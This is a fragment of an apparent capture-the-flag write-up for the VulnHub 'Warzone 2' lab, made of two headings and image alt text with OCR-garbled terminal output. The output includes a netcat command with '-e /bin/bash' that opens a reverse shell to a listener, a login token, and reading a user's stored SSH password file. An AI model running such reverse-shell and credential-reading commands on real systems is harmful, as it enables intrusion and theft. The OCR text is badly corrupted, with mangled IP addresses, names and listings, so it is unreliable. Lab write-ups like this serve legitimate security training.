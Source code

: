 # Connection with netcat on 1337 with new creds
<img src="/assets/images/vulnhub/warzone2/image4.png" style="width:6.14583in;height:7.08333in" alt="—l &#39; •tredteam202W — &#39;Tue Dec el 12:41:21 — # netcat 18.18.6.189 1337 * WARZDNE 2 # WARZDNE 2 # WARZDNE 2 # {SECRET REMOTE ACCESS} Usernme : Password : signalperson Token :833ad488464de1a27d512f1B4b639258e779e1f14eab7B6163B63d34e54a7b26 druxr-xr-x 3526 Nov -rw-r--r-- drwxr-xr-x dr.&#39;xr-xr-x drwxr-xr-x 322 Nov drwxr-xr-x drwxr-xr-x -rw-r--r-- drwxr-xr-x drwxr-xr-x drwxr-xr-x drwxr -xr-x Success Login [SIGNALS] { Is, ...d, no [semaphore] &gt; nc -nv le.1e.6.198 1337 ] Recognized signal [ sending. .... [semaphore] &gt; nc -nv 18.18.6.198 1337 ] Recognized signal sending.... (semaphore] &gt; nc -nv le.1e.6.198 1337 -e /bin/bash -e /bin/bash ] Recognized signal ] sending. ..... {s—laphore] &gt; # nc -nivp 1337 listening on [any] 1337 - [Tue Dec el 12:45:23 connect to [16.18.6.198] from (UNKWÆ) [le.1e.6.189] 45558 total 84 d r.&#39;xr -rw-r-- x 16 5 root - 113 f Lanan - 113 f Lanan 2 flagman 2 flagman 2 flagman 3 f Lawnan I f Lawlan 5 2 flawnan 2 flawnan 2 flagman 2 flagman 2 f Lawnan I f Lawlan 2 2 flagman roo t f Lagman flagman f Lanan f Lanan flagman flanan flanan flagman f Lagman flagman f Lanan f Lanan flagman flanan flanan flagman f Lanan flagman f Lawlan 4896 Nov 4896 Nov 228 Nov 4896 Nov 4896 Nov 4B96 Nov 4896 Nov 4896 Nov 4896 Nov 4896 Nov 4096 Nov 4896 Nov 8137 Nov 4896 Nov 4896 Nov 4896 Nov 5 Nov 4896 Nov 4896 Nov 8 19:17 8 B6:35 : 27 : 27 8 89. 36 : 39 8 89 : 22 : 37 : 37 : 39 : 37 8 89 : 36 : 37 : 37 : 27 : 37 : 39 : 37 : 37 : 37 8 18. 25 . bash logout . bashrc . cache . config Desktop Docments Dom oads . gnupg . ICEauthority . Local Music Pictures . profile Public . ssh Lates . vboxclient -display svga -xll. pid Videos war zone2 - socket - server " />

## flagman creds found in flagman `warzone2-socket-server`
<img src="/assets/images/vulnhub/warzone2/image5.png" style="width:5.45833in;height:2.0625in" alt="drwxr-xr-x 2 flagman flagman I flagman flagman druxr-xr-x 2 f Lawnan f Lawnan dr.&#39;xr-xr-x 2 cd warzone2-socket-server total 26 drwxr-xr-x 2 4896 4896 4896 4896 4896 34 3776 72 Nov Nov Nov Nov Nov Nov Nov Nov Nov 8 18 : 37 : 37 : 37 : 25 drwxr-xr-x 16 f Lanan I flagman -M-r--r-- - rwxr-xr-x I flagman - ruxr-xr-x I flagman cat . mysshpassword f Lagman f Lagman roo t 8 18:25 8 19:17 8 16. 27 8 14. 59 8 17 . vboxclient -display - svga -XII. pid Videos wa r zone2 - socket - se Aler . mysshpassword warzone2. jar warzone2. sh Did you kno./ that i Nate signals! " />
